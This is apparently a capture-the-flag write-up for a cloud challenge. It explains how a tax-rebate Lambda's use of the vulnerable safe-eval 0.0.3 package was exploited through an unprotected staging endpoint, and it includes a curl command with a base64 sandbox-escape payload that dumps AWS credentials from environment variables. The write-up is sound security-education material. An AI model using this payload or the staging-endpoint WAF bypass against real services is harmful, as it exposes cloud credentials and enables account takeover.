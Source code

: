 ```yaml
---
layout: default
title: Hold the line! Perimeter defences doing it's work!
permalink: /:path/
parent: Cloud
nav_order: 2
---
```

# Hold the line! Perimeter defences doing it's work!

> Points: 1991 [2000]

## Description

> Apparently, the lead engineer left the company (“Safe Online Technologies”). He was a talented engineer and worked on many projects relating to Smart City. He goes by the handle c0v1d-agent-1. Everyone didn't know what this meant until COViD struck us by surprise. We received a tip-off from his colleagues that he has been using vulnerable code segments in one of a project he was working on! Can you take a look at his latest work and determine the impact of his actions! Let us know if such an application can be exploited!
> 
> [Tax Rebate Checker](http://33woq.tax-rebate-checker.cf/)
> 
> Extract the flag value and submit in the correct format! - govtech-csg{extracted_value}
> 
> Note that cors-anywhere.herokuapp.com is not our domain. It's simply a free service. Please do not attack that domain!
> 
> This challenge:
> - Is eligible for Awesome Write-ups Award
> - Prerequisite for Mastery Award - Cloud Guru

## Solution

![](website.png)

As the name says, it is a website that help us calculate our tax rebate using our age and annual salary. Each time we submit the form, our data gets posted to `https://cors-anywhere.herokuapp.com/https://7cismpmbed.execute-api.ap-southeast-1.amazonaws.com/prod/tax-rebate-checker`. The reason there is 2 URLs appended to each other is because the request is being proxied through `https://cors-anywhere.herokuapp.com/` and the `CORS` headers are added to the response so that the browser will process the data from `https://7cismpmbed.execute-api.ap-southeast-1.amazonaws.com/prod/tax-rebate-checker`.

Therefore, the URL that we should be targetting is `https://7cismpmbed.execute-api.ap-southeast-1.amazonaws.com/prod/tax-rebate-checker`.

According to the description, `c0v1d-agent-1` is the online handle that the engineer used. With a bit of googling, I found his [Github](https://github.com/c0v1d-agent-1) as well as the relevant [repository](https://github.com/c0v1d-agent-1/tax-rebate-checker).

Below is the vulnerable code that is being used in [`index.js`](https://github.com/c0v1d-agent-1/tax-rebate-checker/blob/main/index.js):

```javascript
...
            let body = JSON.parse(event.body);
            // Secret Formula
            let context = {person: {code: 3.141592653589793238462}};
            let taxRebate = safeEval((new Buffer(body.age, 'base64')).toString('ascii') + " + " + (new Buffer(body.salary, 'base64')).toString('ascii') + " * person.code",context);
            responseBody = {
                    results: taxRebate
            };
...
```

Essentially, it decodes the `age` and `salary` field in base64 and encodes them to `ascii` before evaluating them with `safeEval()`.

According to the [`package.json`](https://github.com/c0v1d-agent-1/tax-rebate-checker/blob/main/package.json), the version of `safe-eval` package that was being used is `0.0.3`, which was found to be vulnerable according to this [article](https://www.wispwisp.com/index.php/2019/08/16/cve-2017-16088-poc/). 

Another thing to note that was the presense of WAF (Web Application Firewall) on the `prod` setup as seen from this [issue](https://github.com/c0v1d-agent-1/tax-rebate-checker/issues/1). However, the issue also cited of a `staging` setup which did not have the WAF attached. 

Using `curl`, I was able to replicate the request but I instead sent the request to `https://7cismpmbed.execute-api.ap-southeast-1.amazonaws.com/staging/tax-rebate-checker` to see if the `staging` might still be there and indead, it was.

```bash
$ curl -XPOST https://7cismpmbed.execute-api.ap-southeast-1.amazonaws.com/staging/tax-rebate-checker -d '{"age":"Mg==","salary":"MTIz"}'
{"results":388.41589639154455}                                                                                                                                      
```

With these knowledge of the vulnerable `safe-eval` package and the WAF-absent `staging` setup, we set off to extract the environment variables of the `lambda` function as it would contain the `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY` and the `AWS_SESSION_TOKEN` which are required for us to takeover the `lambda` function.

Our final payload was the base64 encoded version of `this.constructor.constructor('return process')().env;//`, which instantly revealed the flag in the environment variables.

```bash
$ curl -XPOST https://7cismpmbed.execute-api.ap-southeast-1.amazonaws.com/staging/tax-rebate-checker -d '{"age":"dGhpcy5jb25zdHJ1Y3Rvci5jb25zdHJ1Y3RvcigncmV0dXJuIHByb2Nlc3MnKSgpLmVudjsvLw==","salary":"MTIz"}' | python3 -m "json.tool"
{
    "results": {
        "AWS_ACCESS_KEY_ID": "[REDACTED]",
        "AWS_DEFAULT_REGION": "ap-southeast-1",
        "AWS_EXECUTION_ENV": "AWS_Lambda_nodejs12.x",
        "AWS_LAMBDA_FUNCTION_MEMORY_SIZE": "128",
        "AWS_LAMBDA_FUNCTION_NAME": "cat-2-tax-rebate-checker",
        "AWS_LAMBDA_FUNCTION_VERSION": "$LATEST",
        "AWS_LAMBDA_INITIALIZATION_TYPE": "on-demand",
        "AWS_LAMBDA_LOG_GROUP_NAME": "/aws/lambda/cat-2-tax-rebate-checker",
        "AWS_LAMBDA_LOG_STREAM_NAME": "2020/12/08/[$LATEST]e125e7130aac44e591b6c02012a50176",
        "AWS_LAMBDA_RUNTIME_API": "127.0.0.1:9001",
        "AWS_REGION": "ap-southeast-1",
        "AWS_SECRET_ACCESS_KEY": "[REDACTED]",
        "AWS_SESSION_TOKEN": "[REDACTED]",
        "AWS_XRAY_CONTEXT_MISSING": "LOG_ERROR",
        "AWS_XRAY_DAEMON_ADDRESS": "169.254.79.2:2000",
        "LAMBDA_RUNTIME_DIR": "/var/runtime",
        "LAMBDA_TASK_ROOT": "/var/task",
        "LANG": "en_US.UTF-8",
        "LD_LIBRARY_PATH": "/var/lang/lib:/lib64:/usr/lib64:/var/runtime:/var/runtime/lib:/var/task:/var/task/lib:/opt/lib",
        "NODE_PATH": "/opt/nodejs/node12/node_modules:/opt/nodejs/node_modules:/var/runtime/node_modules:/var/runtime:/var/task",
        "PATH": "/var/lang/bin:/usr/local/bin:/usr/bin/:/bin:/opt/bin",
        "PWD": "/var/task",
        "SHLVL": "0",
        "TZ": ":UTC",
        "_AWS_XRAY_DAEMON_ADDRESS": "169.254.79.2",
        "_AWS_XRAY_DAEMON_PORT": "2000",
        "_HANDLER": "index.handler",
        "_X_AMZN_TRACE_ID": "[REDACTED]",
        "flag": "w3_Ar3_L00kinG_@t_Ap1"
    }
}

```

## Flag
`govtech-csg{w3_Ar3_L00kinG_@t_Ap1}`